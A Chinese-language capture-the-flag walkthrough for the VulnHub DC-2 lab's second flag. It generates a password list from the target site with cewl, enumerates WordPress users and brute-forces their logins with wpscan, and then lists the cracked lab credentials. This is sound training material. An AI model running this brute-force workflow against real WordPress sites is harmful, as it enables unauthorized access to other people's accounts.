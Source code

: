
# flag2

flag1 提示了一个工具 cewl,这是个抓取网站信息用于生成密码的工具,估计意思就是让你用这个工具跑个密码表出来

cewl kali 下自带,直接使用就是了
```bash
cewl http://dc-2 -w out.txt
```

密码表有了,那么就应该爆破了,目标这个网站一看用的就是 wordpress,默认的登录地址一般是 `/wp-admin` 或 `/wp-login.php`

不要使用 kali 自带的 burp 直接跑,你会急得想砸电脑,kali 默认的 burp 是社区版,那个爆破速度基本没用,burp 使用教程参考 [Burp笔记](../../../工具/Burp笔记.md#Intruder)

接下来使用一个工具 WPScan,同样 kali 自带
```bash
wpscan --url http://dc-2 --enumerate u
wpscan --url http://dc-2 --passwords out.txt
```

爆破结果,存在2个账户

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC2/5.png)

```
Username : jerry
Password : adipiscing

Username : tom
Password : parturient
```

使用账号 jerry 登录后可以发现 flag2

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC2/4.png)
